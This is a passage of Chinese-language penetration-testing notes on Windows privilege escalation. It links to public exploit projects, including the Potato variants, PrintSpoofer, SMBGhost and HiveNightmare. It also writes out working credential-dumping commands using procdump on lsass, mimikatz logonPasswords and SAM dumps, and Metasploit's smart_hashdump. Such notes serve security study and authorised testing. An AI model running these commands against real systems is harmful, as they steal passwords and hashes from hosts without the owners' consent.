> 通过模仿令牌欺骗 “NT AUTHORITY\SYSTEM”账户通过NTLM认证，对这个认证过程使用中间人攻击（NTLM重放），为“NT AUTHORITY\SYSTEM”账户本地协商一个安全令牌。
>
> 项目地址：https://github.com/foxglovesec/Potato 

#### 多汁土豆提权Juicy Potato

> 项目地址：https://github.com/ohpe/juicy-potato

#### PrintSpoofer

> 项目地址：https://github.com/whojeff/PrintSpoofer

#### RoguePotato

> 项目地址：https://github.com/antonioCoco/RoguePotato

#### SMBGhost  CVE-2020-0796

> 项目地址：https://github.com/chompie1337/SMBGhost_RCE_PoC
>
> https://github.com/dacade/CVE-POC/tree/master/CVE-2020-0796

#### SeriousSAM  CVE-2021-36934

> 允许低权限用户访问SAM文件，该漏洞不影响Server版本
>
> 项目地址：https://github.com/GossiTheDog/HiveNightmare

### 本地管理员进一步提权

#### procdump.exe

```sh
#通过procdump.exe导出lsass.exe进程的内存，lsass进程中缓存有当前登陆密码
procdump.exe -accepteula -ma lsass.exe lsass.dmp
```

#### mimikatz

```sh
#通过mimikatz以管理员权限读取明文密码
mimikatz "privilege::debug" "sekurlsa::minidump lsass.dmp" "sekurlsa::logonPasswords" "exit"
#通过mimikatz以管理员权限dump lsass进程的内存
mimikatz "privilege::debug" "token::elevate" "sekurlsa::logonpasswords" "lsadump::sam" "exit"
```

#### msf hashdump模块

```sh
#前提是msf获取到了目标shell
use post/windows/gather/smart_hashdump
```

#### CrackMapExec

CrackMapExec（CME）是一款后渗透利用工具，可帮助自动化大型活动目录(AD)网络安全评估任务。利用AD内置功能/协议达成其功能，并规避大多数终端防护/IDS/IPS解决方案。
